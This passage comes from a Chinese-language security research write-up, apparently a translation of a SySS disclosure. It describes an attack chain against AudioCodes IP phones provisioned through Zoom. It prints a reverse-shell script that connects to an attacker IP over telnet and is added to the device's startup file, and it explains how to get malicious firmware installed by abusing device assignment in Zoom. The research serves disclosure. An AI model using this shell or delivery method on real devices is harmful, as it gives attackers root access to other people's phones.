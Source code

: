 ## 八、攻击链

现在让我们进入更令人激动的环节，我们将利用设备未经核实的所有权和硬件中缺少的不可变可信根来构建一个攻击链。

为了简单证明概念，我们在路径 `/home/ipphone/scripts` 中添加了一个脚本，该脚本利用系统内置工具（即在环境中寻找资源）来启动一个 shell 连接到攻击者的服务器：

```plain
#!/bin/sh

/bin/sleep 120
TF=$(/bin/mktemp -u)
/usr/bin/mkfifo $TF
/usr/bin/telnet <ATTACKER-IP> 5000 0<$TF | /bin/sh 1>$TF
```

随后，脚本的路径被添加到 `/home/ipphone/rcS` 文件中，该文件在系统启动时执行。

被修改的固件映像随后被存储在攻击者控制的服务器上，并通过 HTTP 协议提供。为了触发目标设备下载恶意固件映像，攻击者将其设备的 MAC 地址添加到他们的 Zoom 账户，并分配一个包含从攻击者服务器下载新固件的恶意配置模板（请参阅“设备分配”部分）。

现在，通过将设备恢复到出厂设置，设备将经历 AudioCodes 和 Zoom 的配置过程，并从攻击者的服务器下载并安装恶意固件映像。

最后，攻击者的服务器上出现了一个具有 root 权限的 shell：

> [https://blog.syss.com/posts/zero-touch-pwn/#device-assignment](https://blog.syss.com/posts/zero-touch-pwn/#device-assignment)

[![](assets/1709282798-1b726c08954a31238a736b5fdb730eb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229172450-63a5dd72-d6e4-1.png)

攻击链的流程如下：
